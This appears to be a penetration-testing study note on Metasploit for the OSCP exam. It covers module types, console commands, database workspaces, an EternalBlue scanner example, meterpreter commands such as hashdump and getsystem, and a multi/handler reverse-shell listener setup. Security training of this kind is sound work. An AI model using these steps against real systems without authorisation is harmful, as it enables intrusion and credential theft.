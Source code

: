 # Metasploit concept

# Structure

Metasploit is a modular pentesting framework. Altough it is prohibited to use metasploit more than once during the OSCP, it can be a real life save when you desperately need those 10 points and ran out of ideas.

List of modules:

/usr/share/metasploit-framework/modules
├── auxiliary
├── encoders
├── evasion
├── exploits
├── nops
├── payloads
└── post

* auxiliary: scanning, crawlers and other helpful stuff
* encoders: encode payloads and exploits to work on some platform or lesser detection avoidance
* evasion: avoid anti virus
* exploits: run it to exploit remotely to get RCE or locally to escalate privileges once session is established.
* nops: used in budder overflows to achieve some payload size and are 0x90 instructionss
* payloads: binary to be execute once exploit kicks in on target system. Staged: small initial downloader stage, big active payload. Stageless: single large payload. 
* post: post exploitation tools such as backdoors


# Common commands

* search: look for arbitrary module according to search string
* info: full information about module
* show options: show module options
* set [option] [value]: assign value to some module's option 
* unset: opposite of set
* setg [option] [value]: assign value across multiple modules
* exploit or run: activate module
* sessions: list sessions
* sessions [session_id]: interact with a specific session
* background sessions: CTRL+Z

## meterpreter commands

* initiate meterpreter session an type `help`
* my favorites: hashdump, getsystem, shell, 

## Example

look for Eternal Blue hosts

```
use auxiliary/scanner/smb/smb_ms17_010

set RHOSTS iprange

run

enjoy

```
# using the Database

To interract with multiple targets efficiently it is a good practice to use MSF Database.

1. `systemctl start postgresql`
2. `msfdb init`
3. DB should be created and active now. Check it:
```
#restart
msfconsole

db_status
[*] Connected to msf. Connection type: postgresql.
```

4. Add workspace to isolate projects
```
workspace
* default

workspace -a foospace
[*] Added workspace: foospace
[*] Workspace: foospace
```
5. Navigate: `workspace foospace`
6. other actions on workspace
```
msf6 > workspace -h
Usage:
    workspace                  List workspaces
    workspace -v               List workspaces verbosely
    workspace [name]           Switch workspace
    workspace -a [name] ...    Add workspace(s)
    workspace -d [name] ...    Delete workspace(s)
    workspace -D               Delete all workspaces
    workspace -r <old> <new>   Rename workspace
    workspace -h               Show this help information
```
7. Run scan and save automatically to database:

```
db_nmap -sV -p- 10.10.xxx.xxx

# search for artefacts thereafter
hosts
services
```

# Shells

## Multi Handler

This payload is used to provide a universal listener to multiple reverse shells.

Basic usage:

1. start handler (listener) with payload tailored to target host

```
msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 10.11.0.xxx

msf exploit(multi/handler) > exploit
# wait for session
```

2. Deploy exploit containing meterpreter reverse shell on target host
3. Once exploited target shall create a reverse shell to our multi handler
4. Name multi comes from ability to handle multiple connections at once


